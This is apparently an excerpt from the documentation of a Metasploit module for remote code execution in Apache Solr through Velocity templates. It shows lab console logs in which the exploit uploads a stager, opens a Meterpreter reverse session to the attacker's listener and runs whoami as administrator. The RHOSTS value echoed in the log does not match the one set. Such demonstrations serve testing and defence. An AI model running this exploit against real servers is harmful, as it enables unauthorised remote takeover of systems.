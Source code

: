 ```
[*] Command Stager progress -   7.05% done (7160/101541 bytes)
[*] Command Stager progress -  14.10% done (14320/101541 bytes)
[*] Command Stager progress -  21.15% done (21480/101541 bytes)
[*] Command Stager progress -  28.21% done (28640/101541 bytes)
[*] Command Stager progress -  35.26% done (35800/101541 bytes)
[*] Command Stager progress -  42.31% done (42960/101541 bytes)
[*] Command Stager progress -  49.36% done (50120/101541 bytes)
[*] Command Stager progress -  56.41% done (57280/101541 bytes)
[*] Command Stager progress -  63.46% done (64440/101541 bytes)
[*] Command Stager progress -  70.51% done (71600/101541 bytes)
[*] Command Stager progress -  77.56% done (78760/101541 bytes)
[*] Command Stager progress -  84.62% done (85920/101541 bytes)
[*] Command Stager progress -  91.67% done (93080/101541 bytes)
[*] Command Stager progress -  98.67% done (100188/101541 bytes)
[*] Sending stage (180291 bytes) to 192.168.137.155
[*] Command Stager progress - 100.00% done (101541/101541 bytes)
[*] Meterpreter session 2 opened (192.168.137.128:4444 -> 192.168.137.155:50211) at 2020-03-29 00:06:01 +0800

meterpreter > sysinfo
Computer        : 2K19DTCTR
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```

### Windows Server 2019 Datacenter, fully patched, Solr 8.3.0, no authentication, with payload `cmd/windows/generic`
```
msf5 > use exploit/multi/http/solr_velocity_rce 
msf5 exploit(multi/http/solr_velocity_rce) > set RHOSTS 192.168.137.155
RHOSTS => 192.168.137.132
msf5 exploit(multi/http/solr_velocity_rce) > set LHOST 192.168.137.128
LHOST => 192.168.137.128
msf5 exploit(multi/http/solr_velocity_rce) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/http/solr_velocity_rce) > set TARGET 4
TARGET => 4
msf5 exploit(multi/http/solr_velocity_rce) > set CMD whoami
CMD => whoami
msf5 exploit(multi/http/solr_velocity_rce) > exploit

[*] Found Apache Solr 8.3.0
[*] OS version is Windows Server 2019 amd64 10.0
[*] Found core(s): techproducts
[*] Targeting core 'techproducts'
[+] 2k19dtctr\administrator
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/solr_velocity_rce) > 
```
